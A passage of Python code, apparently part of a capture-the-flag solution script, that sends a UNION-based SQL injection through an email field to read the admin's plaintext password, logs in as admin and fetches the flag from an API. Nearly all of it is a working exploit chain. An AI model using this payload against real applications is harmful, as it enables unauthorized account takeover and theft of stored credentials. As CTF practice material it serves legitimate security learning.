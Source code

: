 ````py
        "email": "and 0 union select id, username, plain_password, role, created_at from users where username like \"admin\";#"
    }, headers=headers)
    admin_password = res.json()[0].get('email')

    res = req.post(f'{url}/api/auth/login', json={
        'email': 'admin@gmail.com',
        'password': admin_password
    }) # local에서 test한다면 admin_password가 REDACTED로 나와서 에러나는 것이 정상.
    token = res.json().get('token')
    headers = {
        "authorization": f"Bearer {token}"
    }
    res = req.get(f'{url}/api/ssd/data', headers=headers)
    flag = res.json()[0].get('data_value')

    print(flag)
    ```
````

